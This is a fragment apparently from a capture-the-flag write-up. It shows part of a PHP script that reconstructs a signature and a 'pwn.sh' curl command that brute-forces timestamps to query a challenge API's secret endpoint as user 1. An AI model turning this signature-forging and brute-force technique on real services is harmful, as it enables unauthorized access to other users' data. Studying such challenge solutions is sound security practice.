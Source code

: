 ```php
{
	$begin = substr($start, 0, -1);

	foreach($array as $x) {
		if($x === $start)
			continue;

		$check = substr($x, -strlen($begin));
		if($check === $begin)
			return false;
	}

	return true;
}

for($i = 0; $i < sizeof($c); $i++) {
	if(isStart($c, $c[$i])) {
		$f = (fuse($c[$i], $c));

		if($f)
			exit($f);
	}
}
```

### pwn.sh
```sh
curl -Z "https://ugly-website.web.jctf.pro/api/secret?user_id=1&sgn=$(php ./reconstruct.php)&timestamp="{1576993337..1576993345}
```